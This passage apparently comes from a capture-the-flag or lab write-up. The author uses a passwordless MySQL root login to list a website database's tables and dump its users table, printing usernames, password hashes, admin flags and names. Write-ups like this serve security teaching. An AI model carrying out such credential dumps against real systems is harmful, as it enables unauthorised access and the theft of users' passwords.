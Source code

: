 We also knew that this information comes from the back-end database was MySQL. Using this information, we can guess that we are able to get the users' hashes using the mysql command-line interface. We can interact with it using the command `mysql -u root` without needing to supply a password on this machine. I used this vulnerability to get the hashes for every user on the machine:

```
bash-4.1$ mysql -u root   
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 40
Server version: 5.1.66 Source distribution

Copyright (c) 2000, 2012, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> USE website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW TABLES;
+-------------------+
| Tables_in_website |
+-------------------+
| contact           |
| documents         |
| hits              |
| log               |
| newsletter        |
| payment           |
| trainings         |
| trainings_x_users |
| users             |
+-------------------+
9 rows in set (0.00 sec)

mysql> select * from users;
+-------------------------------+----------------------------------+----------+---------------------+---------+-----------------+--------------------------------------------------------------------------+
| username                      | password                         | is_admin | last_login          | user_id | realname        | profile                                                                  |
+-------------------------------+----------------------------------+----------+---------------------+---------+-----------------+--------------------------------------------------------------------------+
| brian@localhost.localdomain   | e22f07b17f98e0d9d364584ced0e3c18 |        1 | 2012-12-19 11:30:54 |       3 | Brian Hershel   | Brian is our technical brains behind the operations and a chief trainer. |
| john@localhost.localdomain    | 0d9ff2a4396d6939f80ffe09b1280ee1 |        1 | NULL                |       4 | John Durham     |                                                                          |
| alice@localhost.localdomain   | 2146bf95e8929874fc63d54f50f1d2e3 |        1 | NULL                |       5 | Alice Wonder    |                                                                          |
| ruby@localhost.localdomain    | 9f80ec37f8313728ef3e2f218c79aa23 |        1 | NULL                |       6 | Ruby Spinster   |                                                                          |
```